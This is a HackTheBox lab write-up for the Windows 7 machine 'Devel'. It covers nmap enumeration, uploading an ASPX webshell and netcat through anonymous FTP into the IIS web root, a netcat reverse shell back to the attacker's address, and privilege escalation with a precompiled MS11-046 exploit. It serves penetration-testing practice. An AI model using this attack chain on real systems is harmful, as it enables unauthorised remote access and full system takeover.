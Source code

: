 ```yaml
---
layout: post
title:  "HackTheBox - Devel Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Devel" (10.10.10.5) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As usual we're going to start off with our two nmap scans, a full TCP scan using `nmap -sV -sC -p- 10.10.10.5` and `nmap -sU -p- 10.10.10.5` in this case, we only returned ports open on TCP so we're going to look at that now.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 16:59 BST
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see we've got two ports FTP & HTTP, FTP stands out right away because NMAP has confirmed for us that Anonymous login is allowed, that is a severe miss configuration which we can take advantage of. It even looks like the web server root is also the FTP server root, this is another sysadmin fail. We'll login to that in just a few moments, but first our web server appears to be running IIS 7.5, normally I would look for some low-hanging exploits however, given that the FTP root is the same as the web-server root, and we know that it's running ASP.NET, we're not going to go for that as I think there will be an easier path.

### FTP & HTTP

Upon logging into the FTP server we can see the same files as per the NMAP scan, and by visiting the site on HTTP we can confirm that the web root is the same as the FTP root so we're going to try and upload an ASPX shell, luckily for us there is one built into Kali. Because it's running IIS 7.5 which is relatively new we made the assumption it'd be using ASPX rather than ASP. The difference being that ASP is VBScript based and ASPX is .NET based this is a neat little thing to remember when attacking IIS servers.

```
ftp> put /usr/share/webshells/aspx/cmdasp.aspx cmd.aspx
local: /usr/share/webshells/aspx/cmdasp.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (200.5416 kB/s)
```

On port 80, let's try and visit this page and see what happens, if we look at the screenshot below, we've got a command box, that's good! That means our webshell uploaded correctly as expected.

![asp web-shell](/assets/images/2019-05-25-Devel/Screenshot-2019-5-25.png)

Now that we know that works, lets try and use this to execute a netcat.exe, we know that we can upload and it's going into the web root folder so this should allow us to leverage this in order to get a reverse shell on the device.

## User Exploitation

Let's put netcat.exe on the device using FTP. It's important to note that we do need to set the FTP transfer mode to binary, else netcat is not going to execute and we'll get an error when trying to execute the file. The webserver was by default using ASCII mode, in general we only want to use ASCII mode for transferring things such as text files and the like, as we're trying to execute something, we switch to binary mode. You can verify the transfer mode the server is using over FTP by using the `type` in our case we are returned `Using ascii mode to transfer files.` hence why we changed it to binary mode by typing `binary`

```
ftp> binary
200 Type set to I.
ftp> put /usr/share/windows-binaries/nc.exe nc.exe
local: /usr/share/windows-binaries/nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.09 secs (639.0480 kB/s)
```

We didn't actually test our webshell yet so let's run a simple `whoami` in the shell and press execute, as you can see in the below screenshot `iis apppool\web` is returned so we know that our webshell for sure works and we know that the webserver is not running as system at least (that'd be a major sysadmin fail).

![asp webshell execution](/assets/images/2019-05-25-Devel/webshell-execution.png)

So as you can see, we've got basic execution, now what we're going to do is get the web server to execute netcat for our reverse shell, let's first set a listener up on port 80 with `nc -nvlp 80`. We're now going to use our remote code execution to find the full path for the netcat.exe that we uploaded. We can do this using the `dir` command - `dir /s/b C:\ | find /i "nc.exe` it turns out it is located at `C:\inetpub\wwwroot\nc.exe` in order to execute this then we're just going to run `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.12 80` which will give us a connection back to our listener, we've now got a login. I did initially try and get to the `user.txt` flag however because I was only a service account I did not have access this meant we need to priv-esc.

## Privilege Escalation

So, we're on the device, let's work on the priv-esc - the first thing we should run as soon as we access a Windows system is `systeminfo` it's going to give us the OS version which is very powerful as we can then start to search for priv-esc flaws in the operating system.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/5/2019, 8:07:50 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 3/7/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 683 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.497 MB
Virtual Memory: In Use:    550 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

In the codeblock above, right at the top you can see the "OS Version" as you see for this box the OS version is "6.1.7600 Build 7600", let's do some Google-fu and append "privilege escalation" on the end. The very first result we get is [MS11-046 on ExploitDB](https://www.exploit-db.com/exploits/40564), let's check out this exploit. As you can see commented out at the top of the exploit, the author has listed the vulnerable OS's and Windows 7 X86 is listed, we see no mention of enterprise but we're going to assume that our target is vulnerable to this exploit.

To save myself a headache of compiling this exploit on Linux (because we will get errors on Linux due to some of the includes) we're going to take advantage of a repository put together by [Abatchy17 called "WindowsExploits"](https://github.com/abatchy17/WindowsExploits) it's no longer being updated but as we can see, our exploit MS11-046 is in there pre-compiled so let's `git clone` the repo and then use our anonymous FTP login to upload the file to the server once again making sure the type is set to binary else the file won't execute.

```
ftp> binary
200 Type set to I.
ftp> 
ftp> put /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe MS11-046.exe
local: /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe remote: MS11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
112815 bytes sent in 0.08 secs (1.3597 MB/s)
ftp> 
```

Now we've got the exploit on the system all we need to do is execute it, simple right? Yup! If you don't know where the file is you can take advantage of dir again however we know that the path is `C:\inetpub\wwwroot\` anyway so let's execute the file by doing `C:\inetpub\wwwroot\MS11-046.exe` and after about 10 seconds we're going to see the `System32` prompt, let's do a `whoami` to verify and we should see `nt authority\system`. That's it! That's our priv-esc done so now we can go ahead and get the user + root flag and we're done.

Thank you for reading another writeup, this is an OSCP like box so this is great practice for that! In another post we will cover how MS11-046 works a little more because it's for sure a priv-esc exploit we want to keep in mind!
